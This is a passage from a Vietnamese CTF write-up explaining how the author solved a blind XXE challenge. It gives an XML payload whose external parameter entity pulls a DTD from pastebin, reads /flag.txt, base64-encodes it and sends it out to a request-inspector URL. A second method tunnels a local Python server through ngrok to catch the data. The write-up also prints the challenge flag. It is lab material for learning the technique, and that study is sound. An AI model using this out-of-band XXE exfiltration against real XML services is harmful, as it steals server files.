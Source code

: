  
![alt text](https://github.com/manhhuy2002/Hello_world/blob/main/xml2.jpg)
 
![alt text](https://github.com/manhhuy2002/Hello_world/blob/main/xml3.jpg)

Lệnh này nói với XML emgine lấy nội dung của /flag.txt mà bài đã hint cho, decode base-64 và gửi nó dưới dạng tham số URI request.

+ Bước tiếp theo em tạo file xml chính có nội dung như dưới gửi vào burpsuite để send request:

```
<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "https://pastebin.com/raw/EhmjFvs0">
%sp;
%param1;
]>
<r>&exfil;</r>
```
![alt text](https://github.com/manhhuy2002/Hello_world/blob/main/xml4.jpg)

Raw output sẽ có sẵn trong URI 'https://pastebin.com/raw/EhmjFvs0'
 
Cmd trên sẽ tương tác với xml engine và giúp thực thi file xml khác là file thứ cấp vừa tạo ở trên.
 
Sau khi gửi request em vào https://requestinspector.com/p/01gq03f0g3vk1p7dfpsm4060m0 để xem thì ta được đoạn thông tin trả về.
 
![alt text](https://github.com/manhhuy2002/Hello_world/blob/main/xml5.jpg)

Decode bas64 ta được kết quả là flag cần tìm:
 
![alt text](https://github.com/manhhuy2002/Hello_world/blob/main/xml6.jpg)

>Flag: KCSC{blind_xxD_xxO_xx]_xxe!!@#@}
 
 ## XXD
 ### Cách 2: 
 Tương tự như trên nhưng ở đây em dựng server lên để nhận flag về.
 Đầu tiên em dựng server bên phía máy mình bằng python ở trên kali:
 
 ```
 python -m http.server 8005
 
 ```
 Bước tiếp theo em dựng ngrok để tạo đường hầm kết nối giữa local e vừa tạo và internet:
 
 ```
 ngrok http 0.0.0.0:8005
 ```
 ![alt text](https://github.com/manhhuy2002/Hello_world/blob/main/ngrok..jpg)
 
 Sau khi tạo ngrok, đến đây em tạo 1 file xml thứ cấp ở bên phía server, có tên xxe.xml với nội dung: 
 